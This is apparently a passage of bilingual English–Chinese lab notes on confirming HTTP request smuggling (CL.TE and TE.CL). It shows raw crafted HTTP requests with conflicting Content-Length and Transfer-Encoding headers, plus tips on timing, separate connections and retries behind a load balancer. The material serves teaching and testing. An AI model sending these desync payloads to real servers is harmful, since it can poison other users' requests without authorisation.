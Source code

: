 This will cause the subsequent "normal" request to look like this:

```http
GET /404 HTTP/1.1
Foo: xPOST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

```
lab：
1
Z
0

GET /404 HTTP/1.1
Foo: x
```

### Confirming TE.CL

```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0
```

"Update Content-Length" option is unchecked.

在最后的0后面包含**\r\n\r\n**。

**注意：**

- “攻击”请求和“正常”请求应使用**不同的网络连接**发送到服务器

- “攻击”请求和“正常”请求应**使用相同的URL和参数名称**

- 您应该在“攻击”请求之后立即发送“正常”请求

- 前端服务器起到负载平衡器的作用，并将请求转发到不同的后端系统，在确认漏洞之前，您可能需要尝试几次。


- 尽量不要干扰其他用户
